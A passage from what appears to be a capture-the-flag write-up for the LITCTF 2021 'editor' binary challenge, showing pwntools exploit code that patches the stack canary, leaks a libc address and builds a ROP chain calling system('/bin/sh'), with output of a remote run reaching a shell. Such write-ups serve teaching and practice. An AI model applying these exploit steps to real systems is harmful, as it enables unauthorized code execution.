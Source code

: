 ```python
    payload = p8(p64(binary.sym._start)[i])
    p.sendlineafter('!\n',payload)

# patch canary
p.sendlineafter('?\n','1')
p.sendlineafter('!\n',str(0x98-0x10))
p.sendlineafter('!\n',b'\0')

# exit to jump back to _start
p.sendlineafter('?\n','3')
```

This is not unlike the first round.  However this time we're leaking the return address `__libc_start_main` so we can compute the location of libc.

This leak was discovered using GDB.

Like before we patch the canary last and jump back to `_start`.


```python
## round 3: rop chain
payload  = b''
payload += (0x98-0x10) * b'A'
payload += p64(canary)
payload += (0x98 - len(payload)) * b'B'
if args.REMOTE:
    pop_rdi = next(binary.search(asm('pop rdi; ret')))
    payload += p64(pop_rdi)
    payload += p64(libc.search(b'/bin/sh').__next__())
    payload += p64(libc.sym.system)
else:
    payload += p64(libc.sym.gadget)

p.sendafter(':\n',payload)

# exit to shell
p.sendlineafter('?\n','3')
p.interactive()
```

The final round.  We can simply use the 24-byte stack smash provided by `read` to write out ROP chain to get a shell.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/litctf2021/editor_pwn/editor'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to editor.litctf.live on port 1337: Done
[*] '/pwd/datajerk/litctf2021/editor_pwn/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] canary: 0x39eebed1c541ae00
[*] libc.address: 0x7f9655278000
[*] Switching to interactive mode

Great! Hope you accomplished what you wanted!
$ id
```